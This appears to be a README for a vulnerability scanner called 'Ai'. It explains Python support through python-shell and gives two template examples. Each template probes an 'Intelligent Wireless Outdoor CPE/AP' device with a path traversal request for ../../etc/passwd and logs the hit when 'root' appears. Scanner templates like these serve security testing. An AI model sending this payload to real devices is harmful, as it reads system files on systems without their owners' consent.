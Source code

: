<h1 align="center">Ai</h1>
<h4 align="center">Python support</h4>

## Description
Ai supports Python as external not internal but It can still work normally like Python and use PythonShell every time you want to execute python codes. For more information visit [python-shell](https://npmjs.com/package/python-shell)

## Template example
Python support:
```
information:
  name: Intelligent Wireless Outdoor CPE/AP
  id: iwoca-pathtraversal
  description: Intelligent Wireless Outdoor CPE/AP path traversal vulnerable
  risk: medium
  authors: I2rys
  tags: iwoca, path-traversal, Intelligent Wireless Outdoor CPE/AP, Intelligent-Wireless-Outdoor

code: |
  PythonShell.runString(`import requests

  response = requests.get("{{url}}/cgi-bin/showhtml?page=../../etc/passwd")

  if response.text.find("root") != -1:
     print("true")
  else:
     print("false")`, null, function(err, result){
     if(result[0] == "true"){
         Logger.attack_log({{self_info}}, "{{url}}/cgi-bin/showhtml?page=../../etc/passwd")
     }

     resolve()
  })
```

No Python support:
```
information:
  name: Intelligent Wireless Outdoor CPE/AP
  id: iwoca-pathtraversal
  description: Intelligent Wireless Outdoor CPE/AP path traversal vulnerable
  risk: medium
  authors: I2rys
  tags: iwoca, path-traversal, Intelligent Wireless Outdoor CPE/AP, Intelligent-Wireless-Outdoor

code: |
  let path = "/cgi-bin/showhtml?page=../../etc/passwd"
  let response = await _MakeQuest_(`{{url}}${path}`)
  
  if(response.data.indexOf("root") != -1){
    Logger.attack_log({{self_info}}, `{{url}}${path}`)
  }

  resolve()
```
